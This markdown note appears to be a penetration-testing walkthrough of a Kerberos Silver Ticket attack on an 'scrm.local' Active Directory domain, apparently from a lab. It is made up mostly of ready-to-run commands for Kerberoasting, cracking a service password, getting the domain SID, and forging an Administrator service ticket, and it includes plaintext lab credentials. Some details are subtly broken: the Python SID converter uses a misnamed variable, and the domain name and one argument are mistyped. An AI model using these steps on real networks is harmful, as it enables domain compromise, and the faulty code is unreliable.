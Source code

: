 # Silver Ticket Attack in Kerberos

- With valid credentials:
```bash
python3 getTGT.py scrm.local/ksimpson:ksimpson 
```

- Saved ticket should be exported to KRB5CCNAME
- Find valid user SPNs. Perform `-request` if account is Kerberoastable:
```bash
python3 GetUserSPNs.py scrm.local/ksimpson -dc-host dc1.scrm.local -k -request
```

- We now have Service Prinicpal Names for a MSSQL service and have requested a TGT
- Perform offline hash cracking for the service password. 
This alone does not work for logging into the MSSQL database. 
A TGS is required. First obtain the service's TGT.
```bash
python3 getTGT.py scrm.local/sqlsvc:Pegasus60
export KRB5CCNAME=mssqlsvc.ccache
```

- Generate an NTLM hash for the service username using on online tool.
- Convert to lowercase, just to be safe. It could potentially be case sensitive.
- Obtain domain SID. This can be obtained from any user:
```bash
python3 getPac.py -targetUser administrator srcm.local/ksimpson:ksimpson
```

- Forge the TGS:
```bash
python3 ticketer.py -nthash <pwd nthash> -user-id 500 Administrator -domain-sid <domain sid> -domain scrm.local-spn <spn name>
```
- We now have an administrator ccache

- Alternatively, to obtain the domain SID using LDAP:
```bash
ldapsearch -H ldap://dc1.srcm.local -U ksimpson -b 'DC=SCRM,DC=LOCAL' | grep -i sid

objectSid:: AFEFFFDAAAADAFAFASED398ya67x==
```

- LDAP uses it's own formatting so we need to convert it (binary to string):
```py
import struct
import base64
import sys

def convert(binay):
  version = struct.unpack('B', binary[0:1])[0]
  assert version == 1, version
  length = struct.unpack('B', binary[1:2])[0]
  authority = struct.unpack(b'>Q', b'\x00\x00' + binary[2:8])[0]
  string = 'S-%d-%d' % (version, authority)
  
  binary = binary[8:]
  assert len(binary) == 4 * length
  
  for i in range(length):
    value = struct.unpack('<L', binary[4*i:4*(i+1)])[0]
    string += '-%d' % value
    
  return string
   
b64Sid=sys.argv[1]
sid=base64.b64decode(b64Sid)
print(convert(sid))
```


